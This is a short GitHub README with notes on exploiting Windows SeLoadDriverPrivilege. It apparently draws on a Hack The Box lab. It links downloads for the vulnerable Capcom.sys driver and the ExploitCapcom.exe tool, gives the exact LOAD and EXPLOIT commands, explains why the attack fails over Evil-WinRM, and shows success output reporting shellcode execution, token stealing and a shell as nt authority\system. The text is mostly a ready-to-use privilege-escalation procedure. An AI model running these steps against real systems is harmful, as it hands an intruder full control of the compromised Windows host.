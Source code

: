 # SeLoadDriverPrivilegeExp
Exploit SeLoadDriverPrivilege for windows, note by manesec.

## Need

Need two file `Capcom.sys` and `ExploitCapcom.exe`.

`ExploitCapcom.exe` can download from [here](https://github.com/clubby789/ExploitCapcom/releases), or git clone this.

`Capcom.sys` can download from [here](https://m4t3sz.gitlab.io/posts/htb/fuse/expl/seloaddriverpriv/Capcom.sys), or git clone this.

## Exploit

**NOTE**: Please use the absolute path !!!!!

```powershell
ExploitCapcom.exe LOAD C:\mane\Capcom.sys
ExploitCapcom.exe EXPLOIT whoami
```

Failed message:

```powershell
C:\mane>ExploitCapcom.exe EXPLOIT whoami
ExploitCapcom.exe EXPLOIT whoami
[*] Capcom.sys exploit
[-] CreateFile failed
```

I found that when you are trying to exploit via `Evil-WinRM`, it will be failed. 

```powershell
*Evil-WinRM* PS C:\mane> ./ExploitCapcom.exe LOAD C:\mane\Capcom.sys
[*] Service Name: whqobdxtø/°È
[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-2633719317-1471316042-3957863514-1104\????????????????????
NTSTATUS: c0000034, WinError: 0
*Evil-WinRM* PS C:\mane> ./ExploitCapcom.exe EXPLOIT whoami
[*] Capcom.sys exploit
[-] CreateFile failed
```

**You may need to spawn CMD shell to exploit it.**

When it **Success**, it will return:

```powershell
C:\mane>ExploitCapcom.exe LOAD C:\\mane\Capcom.sys
ExploitCapcom.exe LOAD C:\\mane\Capcom.sys
[*] Service Name: iihqptxj��tE]
[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-2633719317-1471316042-3957863514-1104\????????????????????
NTSTATUS: 00000000, WinError: 0
C:\mane>ExploitCapcom.exe EXPLOIT whoami
ExploitCapcom.exe EXPLOIT whoami
[*] Capcom.sys exploit
[*] Capcom.sys handle was obtained as 0000000000000064
[*] Shellcode was placed at 000001BCE4D10008
[+] Shellcode was executed
[+] Token stealing was successful
[+] Command Executed
nt authority\system
C:\mane>
```

## Thanks

+ `Capcom.sys` From M4t35Z's Blog
+ `ExploitCapcom.exe` From clubby789
